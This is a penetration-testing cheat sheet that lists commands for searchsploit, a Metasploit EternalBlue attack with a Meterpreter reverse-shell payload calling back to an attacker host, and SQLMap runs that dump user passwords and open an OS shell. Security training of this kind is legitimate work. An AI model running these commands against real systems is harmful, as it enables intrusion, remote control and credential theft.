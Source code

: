 ### Exploit Identification

**Searchsploit (`searchsploit`)**
An offline interface for the Exploit Database.

```bash
# Search for exploits for a specific software version
searchsploit "Apache Struts 2.0.0"

# Copy an exploit to the current directory for modification
searchsploit -m 41462
```

### Automated Exploitation

**Metasploit Framework (`msfconsole`)**
A modular platform for executing a wide range of exploits.

```bash
# --- msfconsole Workflow ---
# 1. Search for a module
msf6 > search ms17-010

# 2. Select and use the module
msf6 > use exploit/windows/smb/ms17_010_eternalblue

# 3. Configure options (RHOSTS, LHOST)
msf6 > set RHOSTS 192.168.1.110
msf6 > set LHOST 10.10.14.5

# 4. Set a payload (Meterpreter is recommended)
msf6 > set payload windows/x64/meterpreter/reverse_tcp

# 5. Launch the attack
msf6 > exploit
```

### Web Application Exploitation

**SQLMap (`sqlmap`)**
The definitive tool for SQL injection automation.

```bash
# Test a GET parameter for SQLi
sqlmap -u "http://testsite.com/product.php?id=1"

# Enumerate and dump database contents
sqlmap -u "http://testsite.com/product.php?id=1" --dbs
sqlmap -u "http://testsite.com/product.php?id=1" -D webapp --tables
sqlmap -u "http://testsite.com/product.php?id=1" -D webapp -T users -C username,password --dump

# Gain an OS shell
sqlmap -u "http://testsite.com/product.php?id=1" --os-shell
```
